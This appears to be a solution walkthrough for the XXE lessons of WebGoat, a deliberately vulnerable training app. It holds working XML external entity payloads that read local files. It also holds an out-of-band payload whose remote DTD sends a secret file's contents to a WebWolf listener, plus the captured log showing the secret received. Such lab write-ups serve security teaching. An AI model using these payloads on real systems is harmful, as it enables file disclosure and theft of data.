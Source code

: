 # (A4) XML External Entities (XXE)

## Lesson 3
Intercept the request and change the body to:
```
# On Windows
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/">]>
<comment><text>&xxe;</text></comment>

# On Linux or macOS
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///">]>
<comment><text>&xxe;</text></comment>
```

## Lesson 4
The same as the previous lesson, just change request header `Content-Type` to `application/xml`.

## Lesson 7
DTD hosted in WebWolf (see [Parameter entities](https://www.tutorialspoint.com/dtd/dtd_entities.htm)):
```
<?xml version="1.0" encoding="UTF-8"?>  
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:9090/landing?%secret;' >" >%all;
```

Attack payload:
```
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE xxe [  
  <!ENTITY % secret SYSTEM "file:///c:/Users/Jan/.webgoat-@project.version@/XXE/secret.txt" >  
  <!ENTITY % dtd SYSTEM "http://localhost:9090/files/vernjan/lesson7.dtd" >  
  %dtd;
]>  
<comment>  
<text>&send;</text>  
</comment>
```

How it works:
1. XML parser evaluates parameter entity `secret`. Its value is the content of the secret file.
2. XML parser evaluates parameter entity `dtd`. Its value is loaded from remote DTD.
    3. XML parser evaluates parameter entity `all` defined in remote DTD
    4. Entity `all` is "printed/rendered" (`%all;`). The remote DTD thus become:
    ```
    <!ENTITY send SYSTEM 'http://localhost:9090/landing?THE_SECRET' >
    ```
3. Entity `dtd` is "printed/rendered" (`%dtd;`). The local DTD thus become:
    ```
    <!ENTITY send SYSTEM 'http://localhost:9090/landing?THE_SECRET' >
    ```
   
Grab the secret from WebWolf (`sunSaRLwgC`):
```json
{
  "timestamp" : "2020-04-01T07:42:44.061694600Z",
  "principal" : null,
  "session" : null,
  "request" : {
    "method" : "GET",
    "uri" : "http://localhost:9090/landing?WebGoat%208.0%20rocks...%20(sunSaRLwgC)",
    "headers" : {
      "host" : [ "localhost:9090" ],
      "connection" : [ "keep-alive" ],
      "user-agent" : [ "Java/11.0.3" ],
      "accept" : [ "text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2" ]
    },
    "remoteAddress" : null
  },
  "response" : {
    "status" : 200,
    "headers" : { }
  },
  "timeTaken" : 2
}
```